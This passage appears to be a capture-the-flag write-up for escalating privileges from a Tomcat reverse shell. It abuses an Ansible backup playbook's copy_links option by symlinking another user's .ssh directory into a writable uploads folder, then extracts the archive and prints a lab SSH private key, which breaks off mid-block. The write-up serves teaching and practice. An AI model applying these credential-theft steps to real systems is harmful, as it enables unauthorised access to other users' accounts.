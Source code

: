 The reverse shell runs under the `tomcat` user in the `/var/lib/tomcat9/` directory. There are no configuration files or anything of interest regarding privilege escalation in the immediate vicinity.

Run [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the target and note the interesting process running by the user `luis`.

```bash
...[SNIP]...
root      267205  0.0  0.0   8356  3448 ?        S    05:11   0:00  _ /usr/sbin/CRON -f
root      267206  0.0  0.0   2608   612 ?        Ss   05:11   0:00      _ /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
...[SNIP]...
```

An [Ansible](https://www.ansible.com/) playbook `/opt/backups/playbook/run.yml` is being executed approximately every 30 seconds. The playbook:

```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

The playbook recursively copies all files in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` into `/opt/backups/files`. It then compresses the files in `/opt/backups/files` into an archive `/opt/backups/archives/backup-$DATE-$TIME.gz`. It then removes the files from `/opt/backups/files`.

Note the extra argument that is passed into the first task: `copy_links=yes`. According to the documentation for Ansible's [synchronize](https://docs.ansible.com/ansible/latest/collections/ansible/posix/synchronize_module.html) task, `copy_links=yes` "[copies] symlinks as the item that they point to (the referent), rather than the symlink [itself]." Since the playbook is running as `luis`, if a symlink to `/home/luis/.ssh` is somewhere under the `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory, the contents of this directory will be copied and archived up, including `luis`'s SSH private key. Since `tomcat` can write to `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`, this is possible.

```bash
$ ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/tgihf-ssh
```

Continually list `/opt/backups/archives` until a new archive appears. When it does, `gzip` decompress and untar the archive and make note of `luis`'s SSH private key.

```bash
$ gzip -d backup-2021-10-02-05:37:32.gz
$ tar -zvf backup-2021-10-02-05:37:32
$ cat dashboard/uploads/tgihf-ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo
MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4
n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R
MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela
duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN
3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI
PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2
EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6
56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'